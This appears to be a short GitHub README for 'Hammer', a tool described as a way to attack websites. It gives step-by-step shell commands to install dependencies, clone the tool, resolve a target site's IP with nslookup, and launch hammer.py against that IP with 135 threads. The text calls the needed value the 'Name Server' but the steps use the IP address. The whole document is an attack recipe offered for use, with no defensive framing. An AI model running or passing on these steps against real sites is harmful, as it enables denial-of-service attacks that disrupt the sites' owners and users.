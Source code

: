 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

